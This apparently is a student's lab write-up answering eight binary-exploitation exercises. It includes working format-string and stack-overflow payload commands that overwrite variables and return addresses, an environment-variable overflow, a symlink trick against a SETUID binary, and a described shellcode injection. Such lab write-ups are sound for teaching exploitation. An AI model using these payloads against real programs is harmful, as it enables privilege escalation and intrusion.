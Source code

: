 ### Answer 1
After reading and understanding most of the q1.c code I realized I need to change the local variable changeme by eating into the program’s main’s frame up about 1024 bytes with the format string exploit, using the technique from the workshop. After trying to write more and more areas by changing 4-byte values up the frame, the following one worked -
```
# ./q1 $(python -c 'print "A" + "%08x."*220')
```
### Answer 2
Followed same technique as Q1. Wrote 1024 A characters and then set changeme to the value needed based on the code in q2.c file
The command that I ran was -
# ./q2 $(python -c 'print "A"*1024 + "\xad\xdd\xba"')

### Answer 3
Following on from Q2, I first checked the address of the secret_func() function using objdump and then injected that address after the 1024 char array into the same way as Q2
The commands I used were -
```
# objdump -D -M intel q3 | grep -A70 secret_func
# ./q3 $(python -c 'print "A"*1024 + "\x8b\x85\x04\x08"')
```
### Answer 4
I researched a lot about how to provide modifiers to sprintf to give out a different format for integers and strings till I finally found this reference - 
http://docs.roxen.com/pike/7.0/tutorial/strings/sprintf.xml

Then I used the %Nd modifier which means  	- An integer right-justified in a field at least N characters wide
Then I found the memory address of the secret_func with objdump similar from the previous question Q3 and then set the integer as the memory address in the above sprintf modifier with the following command -
```
# ./q4 $(python -c 'print "%1024d\xbb\x85\x04\x08"')
```

### Answer 5
Since I could not modify the binary, move it or recompile it with new code, I went to my own user folder on the machine where I had privileges. After a lot of trying and seeing the vague hints on discussion forum what I could understand is that I have to run the binary as it is without modifying it and I need to check the color guides for files in the terminal.

When I found out about symbolic links also having their own color, I tried to create a symbolic link with my own local binary and a link named ‘secet’ to point to the original secret file. This way I could run the SETUID binary to run cat command my link ‘secet’ which pointed to the original secret file.

### Answer 6
After inspecting the code in q6.c, I saw that the value of the environment variable ‘Q6_SECRET_CODE’ is stored in the locals.buffer and we need to overflow that to change the value of the locals.flag to 0xdeadbeef. So first I experimented by setting this environment variable in my own user a1745936 and using the ‘set’ command to see if it works or not and what is the value of the ‘Q6_SECRET_CODE’. Then I went back to the /home/q6 folder and tried the same and it worked the same way. Then I executed the program q6 after setting the ‘Q6_SECRET_CODE’ environment variable and found the secret. The bash commands I used before execution were -
```
# export Q6_SECRET_CODE="$(python -c 'print "A"*1024 + "\xef\xbe\xad\xde"')"
# set | grep "Q6_SECRET_CODE"
``` 

### Answer 7
I followed all the steps of the workshop for checking stack frame and injecting shell code. Once it worked in gdb , I changed the path and ran it in the terminal of the machine and then opened the secret file because I got shell through q7 program which has access to the secret file. 

Given below is first screenshot of gdb running the shell code as user a1745936 and then terminal running shell code as q7 and displaying the secret. 
![gdb](gdb.png?raw=true "gdb")
![shell](shell.png?raw=true "shell")

### Answer 8

I experimented around and tried to understand what is to be done, similar to the provided video.
After using objdump to find the address of flag2, I used that address to create the payload to be passed as argv[1] in the code
![objdump](objdump.png?raw=true "objdump")
![pad](pad.png?raw=true "pad")
  
```
# ./q8 $(python -c "print 'A'*8 +'\x34\xa0\x04\x08' + '%08x.'*138 + 'B'*45")
```
